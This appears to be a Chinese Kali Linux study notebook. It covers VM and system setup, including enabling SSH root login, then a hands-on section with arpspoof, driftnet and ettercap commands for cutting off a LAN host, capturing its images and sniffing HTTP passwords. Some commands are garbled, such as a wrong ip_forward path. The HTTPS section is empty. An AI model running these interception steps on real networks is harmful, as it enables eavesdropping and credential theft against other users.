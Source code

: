                                                 Kali学习笔记

## 1.环境的搭建

### 1.1虚拟机搭建 

物理机要求：  I3同级或者更高级
内存 不小于2G （最低要求）8G 略显紧凑 16G  上天。。
硬盘 只是玩玩的话用32G左右就好  长期玩 不小于80G 

物理机电脑如果是 32位 用vm10版本的 64位 用12版本的 
我不会告诉你 可以右键我的电脑 属性 能看到位数的 

先去bios 确认开启了虚拟化 
然后安装虚拟机  
百度有序列号 不强调 
在桌面的虚拟机图标 右键 属性 兼容性 兼容当前操作系统  并且以管理员身份运行


物理机安装的话 需要先确定 cpu是amd的 还是 inter的  这两个有区别  
首先 amd的 cpu 尽量安装 amd 64位的镜像  inter的cpu 尽量安装i386的镜像 口映射太麻烦，监听的时候 可能会被防火墙拦截 或者无法转发，抓包的时候一大堆物理机的数据包 一小部分是局域网下的 
物理机安装kali物理硬件 性能最大化利用，端口映射简单 方便 
缺点 最主要的是兼容性问题，太坑，除非必要 真心不建议装 或者当前版本不建议（等待官方的更新）再就是 独立显卡驱动 很麻烦 也很鸡肋 
在者 不建议 物理机安装 因为会有很多故障 或者不兼容的情况  
首先用软碟通打开镜像 然后选择存储介质 烧录 然后 重启 更改bios的启动项 设置成 U盘启动 然后 进入到kali安装界面 选择倒数第三项（图形化安装）
剩下的不多叙述 和虚拟机安装方法 大同小异
注意要点：
* 第一  物理机和虚拟机各有优缺点 
虚拟机能快照还原 配置方便 物理硬件更改方便 
缺点，端
* 第二 物理机安装 注意好盘符分区 一定不要弄错了 
* 第三 引导位置，尤其是双硬盘的玩家 一定要注意 引导放在那里
* 第四 如果物理机安装的时候 提示探测不到光盘 请把 未解压的iso镜像放到u盘一份 还是探测不到 请把U盘重新插拔 再探测 还是不行 就去安装的shell里面  df -hl 查看当前挂载点 ，然后 umount
加上最后一行  再执行就好了 
* 第五 如果 你对你的网络不自信 就别用网络镜像更新 很多人都是卡死在这里 
* 第六 记好root密码 忘了  呵呵 重做吧 


#### 1.1.1安装vmtool


在虚拟机选项栏 找到虚拟机选项 下拉菜单中 找到 安装vmtool 
在空白处右键  在终端打开
 先 ls 查看下 当前目录下的所有文件 
 切换到vm目录 执行安装文件  
Vmware-install.pl 是安装文件  vmware-install.real.pl 是卸载文件 


## 1.2 kali虚拟机的配置
#### 1.2.1 更新源的修改
  （最好不要更改，就用官方源，但是其中有些中文的软件安装包没有）

终端修改 /etc/apt/sources.list文件 ，用Nano、vim都可以

```shell
#kali官方源
deb http://http.kali.org/kali kali-rolling main non-free contrib
#中科大的源
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib


依次执行下面命令： 
apt-get update & apt-get upgrade   更新并升级 
apt-get dist-upgrade 
reboot
```

#### 1.2.2安装 输入法
```shell
apt-get install fcitx fcitx-googlepinyin
```
16.2版本更新了之后 在桌面右上角的设置去找输入法的配置
 
#### 1.2.3字体重叠解决 办法
```
apt-get install -y ttf-wqy-microhei ttf-wqy-zenhei xfonts-wqy
```
#### 1.2.4安装 vpn代理工具 （选装 后期才会涉及到翻墙）
```
apt-get install network-manager-openvpn-gnome
apt-get install network-manager-pptp
apt-get install network-manager-pptp-gnome
apt-get install network-manager-strongswan
apt-get install network-manager-vpnc
apt-get install network-manager-vpnc-gnome
```
#### 1.2.5安装 flash 
```
方法一：物理机不一定有用
apt-get install flashplugin-nonfree
update-flashplugin-nonfree --install

方法二：
下载flash linux压缩包
解压后进入文件夹
cp libflashplayer.so /usr/lib/mozilla/plugins/
cp -r usr/* /usr

```
#### 1.2.6安装nload流量分析工具
```
Apt-get install nload
```
#### 1.2.7修改ettercap配置文件
```
Nano /etc/ettercap/etter.conf 
```
把 ec_uid 、ec_gid的值 改成0 
Ctrl +x 是退出  然后她会询问你是否保存  按 y 然后 她会问你保存的文件名  这块直接回车就好  


#### 1.2.8 Ssh 配置文件修改 
```
nano /etc/ssh/sshd_config 
将#PasswordAuthentication no的注释去掉，并且将NO修改为YES //kali中默认是yes
将PermitRootLogin without-password修改为
   PermitRootLogin yes
```

* Ssh 开机自启 
格式  
```
Update-rc.d 服务 enable //（开启）disabled 关闭
update-rc.d ssh enable  //系统自动启动SSH服务
update-rc.d ssh disabled // 关闭系统自动启动SSH服务
```
完成以上步骤 且确保无误并拍摄快照

#### 1.2.9 kali物理机声卡问题（亲测）

#其实并不是不支持声卡驱动了。
#只是root用户下默认关闭。
```
systemctl --user enable pulseaudio  
```

leafpad 编辑 /etc/default/pulseaudio 写入以下两行即可。
#root下是默认关闭声卡驱动的， 开机自动开启
```
PULSEAUDIO_SYSTEM_START=1
DISALLOW_MODULE_LOADING=0
```
reboot




# &.Kali系统渗透实战教程

## &.1：局域网断网攻击讲解
注：arp攻击 ，使局域网内某机器断网！  
原理：使目标的ip经过我的网卡，从网关出去，
如果可以从网关出去，就是arp欺骗
如果配置错误，不能从网关出去，经形成断网攻击
Arpspoof

Arpspoof  -i 网卡 -t 目标IP 网关


Kali : 网卡  eth0
目标ip ：192.168.1.100
网关：192.168.1.1


替换掉： arpspoof -i eth0 -t 192.168.1.100  192.168.1.1

怎么看局域网当中的ip呢   

fping -asg 192.168.1.0/24


echo 1 > /proc/net/sys/ipv4/ip_forward

注：echo  写入命令不会有回显

## &.2：图片拦截
driffnet  截取经过网卡的图片
命令：driffnet -i eth0
通过与arp欺骗，
echo 1 > /proc/net/sys/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.100  192.168.1.1

可以获取内网别人浏览过的一些图片
## &.3：http账号密码的截取
在公司我已经学会用wireshark进行用户账号密码的抓包分析，现在通过arp欺骗在用ettercap进行拦截
思路:先进行arp欺骗，然后进行拦截
命令：
执行arp欺骗：
echo 1 > /proc/net/sys/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.100  192.168.1.1
ettercap -Tq -i eth0（其中T代表以文本格式，q是以安静模式）
当然也可以以图形化界面的方式来进行，最终截图的如下列：
 
![http](https://github.com/jitianze/yanzixu/blob/master/picture/1.png)


## &.4：https 账号密码的截取
